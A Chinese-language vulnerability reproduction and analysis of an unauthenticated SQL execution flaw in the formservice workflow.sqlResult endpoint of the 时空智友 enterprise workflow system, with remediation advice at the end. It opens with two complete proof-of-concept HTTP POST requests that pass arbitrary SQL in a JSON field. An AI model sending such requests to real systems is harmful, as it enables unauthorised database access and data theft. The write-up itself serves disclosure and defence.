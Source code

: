 # 漏洞复现

```
oracle：

POST /formservice?service=workflow.sqlResult HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 91
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Content-Type: application/json
Accept-Encoding: gzip

{"params": {"a": "11"}, "sql": "select sys.fn_sqlvarbasetostr(HASHBYTES('MD5','1234f56'))"}
```

```
mysql

POST /formservice?service=workflow.sqlResult HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 91
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Content-Type: application/json
Accept-Encoding: gzip

{"params": {"a": "11"}, "sql": "SELECT HEX(MD5('1234f56'));"}
```

![image-20230824121340847](images/1.png)

# FormService解析流程

在时空智友企业流程化管控系统中，提供了一个名为formservice的servlet，这个接口可以通过反射来调用相应service的对应方法，例如`service=attachment.write`，这样就可以调用attachment这个service对应类的write方法

在plugins.xml下缓存了所有service对应的class

![image-20230824123354701](images/2.png)

在初始化FormService的时候从plugins.xml的form-service中获取service来初始化pluginsMap

![image-20230824123539379](images/3.png)

![image-20230824135800395](images/4.png)

![image-20230824124149104](images/5.png)

在service方法中，通过service参数来获取对应的class并进行实例化

![image-20230824123919550](images/6.png)

![image-20230824125134919](images/7.png)

在`getService`中会把service对应的class的Method添加到a这个HashMap中（key为service对应的class，value是里面所有Method），然后遍历这所有的Method，找到对应请求的Method后跳出循环，然后有通过参数类型判断得到一个int类型，最后添加到b这个HashMap中

![image-20230824142835736](images/8.png)

当第二次调用getService中，会从b中get处对应的key，找到后直接返回对应的Object

# 漏洞分析

在workflow这个service的sqlResult方法中发现了一处SQL注入漏洞

![image-20230824143210450](images/9.png)

在service中接受一个service参数，对相应参数进行赋值，这里因为是反编译的代码，其实赋值那几个调试显示的值不太一样，但是知道是什么值就行，var8是com.artery.workflow.ServiceImpl这个实例化类，var9是3，因为sqlResult第三个参数是JSONObject接口，var10是worlflow，var11是sqlResult，var12是com.artery.workflow.ServiceImpl这个类实现的所有接口

![image-20230824144120304](images/10.png)

中间是一部分判断，主要是判断接口，请求方法是否是GET，如果是POST再判断有没有content参数传入，是不是文件上传的请求，如果都不是，再判断var49（在service开头传入的参数inflate，这里判断为空），就直接读取POST的原始数据

![image-20230824144645828](images/11.png)

接下来通过var9这个int参数判断处理数据，这里将POST数据用JSONObject处理

![image-20230824145627923](images/12.png)

然后通过反射调用对应Service对应class的Method，传入包装好的Object数组，里面是request，response对象，JSON处理后的POST数据

![image-20230824150002189](images/13.png)

调用到`ServiceImpl`到`sqlResult`方法

![image-20230824150154597](images/14.png)

获取`sql`参数，还有`params`这个`json`，然后对`json`转成`Map`，最后传入`getFieldValue`

![image-20230824150716362](images/15.png)

创建Database对象，调用`getFieldValue`

![image-20230824150745404](images/16.png)

通过Database类的executeQuery执行sql

![image-20230824152309296](images/17.png)

调用PreparedStatement的executeQuery直接执行SQL语句，因为是传入的整条语句，可以不考虑预编译情况

![image-20230824152449027](images/18.png)

最后将执行结果返回，在service方法中，如果调用的sqlResult执行结果不为空，则通过response对象打印到页面

![image-20230824152602423](images/19.png)

![image-20230824152650365](images/20.png)

# 漏洞修复

1. 对于formservice这种灵活地调用其他类的方法的接口添加鉴权。
2. 在sqlResult方法中，考虑弃用直接执行整条传入的sql语句的方式，建议使用拼接过滤，预编译的形式。
3. 联系厂商，在漏洞修复后第一时间进行升级。